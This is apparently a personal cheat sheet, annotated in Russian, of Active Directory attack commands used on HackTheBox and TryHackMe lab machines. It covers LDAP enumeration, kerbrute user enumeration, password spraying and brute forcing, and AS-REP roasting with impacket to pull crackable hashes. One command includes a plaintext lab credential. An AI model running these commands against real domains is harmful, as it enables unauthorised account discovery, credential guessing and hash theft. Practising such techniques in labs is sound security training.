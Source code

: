 ldapsearch -H ldap://dc1.scrm.local -U ksimpson -b 'dc=scrm,dc=local'

	ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts (Инфо о домене)
 	
	ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' (Инфо в домене)

 	cat ldap_info| awk '{print $1}' | sort| uniq -c| sort -nr | grep ':'


можно попробовать -
[windapsearch](https://github.com/ropnop/windapsearch)

-------------еще энумерация LDAP и поиск доменных юзеров------------------------

impacket-GetADUsers egotistical-bank.local/ -dc-ip 10.10.10.175 -debug

impacket-GetADUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -all

------------еще ldap-shell

https://github.com/PShlyundin/ldap_shell


# KERBRUTE

https://github.com/ropnop/kerberos_windows_scripts/blob/master/kinit_horizontal_brute.sh

https://github.com/ropnop/kerbrute

./kerbrute_linux_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt  (Проверка валидных пользоввателей с преатентификациеей)

~/kerbrute_linux_amd64 userenum --dc 10.10.10.52 -d htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt (Проверка валидных пользоввателей с преатентификациеей)


./kerbrute_linux_amd64 passwordspray --dc 192.168.1.19 -d ignite.local users.txt Password@1  (Распыление пароля)

./kerbrute_linux_amd64 bruteuser --dc 192.168.1.19 -d ignite.local pass.txt username

kerbrute passwordspray userlist NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d intelligence.htb

 Может не сработать тогда надо -->>>  crackmapexec smb 10.10.10.248 -u username.txt -p NewIntelligenceCorpUser9876 

# Поиск учетных записей без преаутентификации керберос (НУЖЕН СПИСОК ПОЛЬЗОВАТЕЛЕЙ)

python3 GetNPUsers.py enterprise.thm/ -dc-ip 10.10.38.153 -usersfile /home/max/users.txt -no-pass

impacket-GetNPUsers -no-pass raz0rblack.thm/ -usersfile user.txt -format hashcat -outputfile hash.txt

(НУЖНА АУТЕНТ ПО КЕРБЕРОС И НЕ НУЖНА)

impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile forest_user

impacket-GetNPUsers -dc-ip 10.10.10.161 htb.local/ -usersfile forest_user -request
